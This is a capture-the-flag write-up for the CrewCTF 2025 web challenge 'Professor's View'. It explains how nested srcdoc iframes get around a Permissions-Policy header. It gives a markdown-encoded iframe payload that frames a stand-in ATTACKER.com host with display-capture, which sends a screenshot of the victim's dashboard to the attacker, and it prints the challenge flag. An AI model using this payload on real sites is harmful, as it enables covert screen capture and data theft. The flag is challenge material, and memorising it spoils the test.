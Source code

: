 +++
date = '2025-09-26T17:44:14+07:00'
title = 'Crew CTF 2025 - Professor View Write-up'
tags = ['Crew CTF 2025', 'CTFs']
description = 'A course designed to take students’ knowledge to the next level.'
draft = false

[cover]
  image = '/images/posts/crew-ctf-2025.webp'
  alt = 'Crew CTF 2025 - Professor View'
  caption = 'Crew CTF 2025 - Professor View'
  relative = false
+++

> **Room / Challenge:** Professor's View (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** CrewCTF 2025
-   **Challenge:** Professor's View (web)
-   **Target / URL:** `https://professors-view.chal.crewc.tf/`
-   **Difficulty:** `Hard`
-   **Points:** `477`
-   **Tags:** web, xss, sqli, auth, enumeration
-   **Date:** `21-09-2025`

---

## Goal

We have to get the flag of the Professor which is showned in his dashboard.

## My Solution

Here is the [Source Code](./professor-view.tar.gz)

Unlike Hate Notes and Love Notes, Professor's View response is set:

```
Content-Security-Policy: script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';
```

So from now on we can skip the XSS and CSS Exfiltration.

You can read full write-up of the author `bubu` [here](https://albertofdr.github.io/post/crewctf-2025/)

But I have the base idea:

The app has a route `/profmeet` which should be used to create meetings or calls. That can explain why the `Permissions-Policy` has `self` value for `camera`, `display-capture`.

```javascript
// Middleware to add security headers to all responses
app.use((req, res, next) => {
    // Prevent any attack
    res.setHeader('X-Content-Type-Options', 'nosniff');
    res.setHeader('X-Frame-Options', 'DENY');
    res.setHeader(
        'Content-Security-Policy',
        "script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';",
    );
    res.setHeader('Referrer-Policy', 'no-referrer');
    res.setHeader(
        'Permissions-Policy',
        'accelerometer=(),attribution-reporting=(),autoplay=(),browsing-topics=(),camera=self,captured-surface-control=(),ch-device-memory=(),ch-downlink=(),ch-dpr=(),ch-ect=(),ch-prefers-color-scheme=(),ch-prefers-reduced-motion=(),ch-rtt=(),ch-save-data=(),ch-ua=(),ch-ua-arch=(),ch-ua-bitness=(),ch-ua-form-factors=(),ch-ua-full-version=(),ch-ua-full-version-list=(),ch-ua-mobile=(),ch-ua-model=(),ch-ua-platform=(),ch-ua-platform-version=(),ch-ua-wow64=(),ch-viewport-height=(),ch-viewport-width=(),ch-width=(),clipboard-read=(),clipboard-write=(),compute-pressure=(),cross-origin-isolated=(),deferred-fetch=(),digital-credentials-get=(),display-capture=self,encrypted-media=(),ethereum=(),fullscreen=(),gamepad=(),geolocation=(),gyroscope=(),hid=(),identity-credentials-get=(),idle-detection=(),join-ad-interest-group=(),keyboard-map=(),local-fonts=(),magnetometer=(),microphone=self,midi=(),otp-credentials=(),payment=(),picture-in-picture=(),private-aggregation=(),private-state-token-issuance=(),private-state-token-redemption=(),publickey-credentials-create=(),publickey-credentials-get=(),run-ad-auction=(),screen-wake-lock=(),serial=(),shared-storage=(),shared-storage-select-url=(),solana=(),storage-access=(),sync-xhr=(),unload=(),usb=(),window-management=(),xr-spatial-tracking=()',
    );
    res.setHeader('Cache-Control', 'no-store');
    next();
});
```

There is a bypass method by using `about:srcdoc` headerless document which do not produce HTTP requests and therefore lack response headers. The payload will be constructed like this: `<iframe srcdoc="<iframe src='https://ATTACKER.com' allow='display-capture'></iframe>"></iframe>`.

In the markdown, that payload will become `&[a[srcdoc=&lt;iframe/src=&apos;https://ATTACKER.COM&apos;/allow=display-capture&gt; ](a)](a)`, because markdown blocks `<` and `>`. So we can make a complain with that payload and get the screenshot in our server.

You can view the `server.js` created by `bubu` [here](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/professors-view/solution/server.js)

![Guide image](/images/posts/professor-view-1.webp)

We can get the flag: `crew{permissions_are_fun_even_that_people_dont_really_care_1a3b7c9d}`

## Lessons Learned

-   Markdown Exploit
-   Beyond XSS Exploitation
